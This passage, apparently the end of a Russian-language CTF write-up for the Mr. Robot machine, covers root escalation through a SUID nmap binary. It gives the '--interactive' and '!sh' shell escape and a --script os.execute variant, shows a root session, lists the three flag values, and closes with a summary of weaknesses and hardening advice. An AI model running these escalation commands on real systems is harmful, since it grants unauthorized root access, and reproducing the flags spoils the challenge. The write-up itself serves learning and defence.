-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```

Перехожу на `gtfobins`  
  

Привилегии с помощью `SUID` в `nmap` можно повысить, например, через режим `--interactive` или через `--script`

### --script
```bash
nmap --script="os.execute('/bin/sh')"
```
но на жертве установлена старая версия, не поддерживающая `--script`

### --interactive
```bash
robot@linux:/tmp$ nmap --interactive
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

## 🏁 Флаги

- key 1: 073403c8a58a1f80d943455fb30724b9
- key 2: 822c73956184f694993bede3eb39f959   
- key 3: 04787ddef27c3dee1ee161b21670b4e4  

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, hydra, wpscan, wget, hashcat, john, hashid, netcat, python3, linpeas.sh, gcc  

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Недостаточная защита учетных данных `WordPress`
    - `/wp-login.php` позволяет подобрать логин и пароль брутфорсом
  - Информация в `robots.txt`
    - раскрытие `key-1-of-3.txt` и `fsocity.dic`
  - Возможность редактирования тем `WordPress`
    - позволило внедрить `php reverse shell`
  - Хранение пароля в виде `MD5`-хеша
    - `/home/robot/password.raw-md5` содержал MD5-хеш пароля
  - `SUID`-бинарник nmap
    - эксалация привилегий через интерактивный режим `--interactive`
  - Устаревшая версия `WordPress`
    - `WordPress 4.3.1` и тема `twentyfifteen` версии 1.3 устарели и потенциально уязвимы
  - Устаревшая версия ядра `Linux`
    - версия ядра `Linux 3.13.0-55-generic` уязвима к известным эксплойтам  

🛡 **Советы по защите:**
  - Усиление защиты учетных данных `WordPress`
    - Использовать сложные пароли и внедрить двухфакторную аутентификацию для админ-панели `WordPress`
    - Ограничить количество попыток входа через плагины
  - Скрытие информации в `robots.txt`
    - Удалить из `robots.txt` ссылки на чувствительные файлы, такие как словари или ключи
    - Использовать `.htaccess` или конфигурацию сервера для запрета доступа к файлам, не предназначенным для публичного просмотра
  - Ограничение редактирования тем `WordPress`
    - Отключить возможность редактирования файлов тем через админ-панель (например, установить `define('DISALLOW_FILE_EDIT', true);` в `wp-config.php`)
    - Ограничить доступ к админ-панели только для доверенных `IP-адресов`
  - Безопасное хранение паролей
    - Не хранить пароли в виде MD5-хешей в доступных файлах
    - Ограничить доступ к файлам с учетными данными через правильные настройки прав (`chmod`, `chown`)
  - Исправление `SUID`-бинарников
    - Удалить `SUID`-бит с `nmap` или заменить его на более безопасную версию без интерактивного режима
    - Регулярно проверять систему на наличие SUID/GUID-бинарников
  - Обновление программного обеспечения
    - Обновить `WordPress` до последней версии
    - Актуализировать тему `twentyfifteen`
    - Обновить ядро `Linux` до версии, не уязвимой к известным эксплойтам
    - Обновить `Apache` и другие сервисы до последних версий для устранения известных уязвимостей


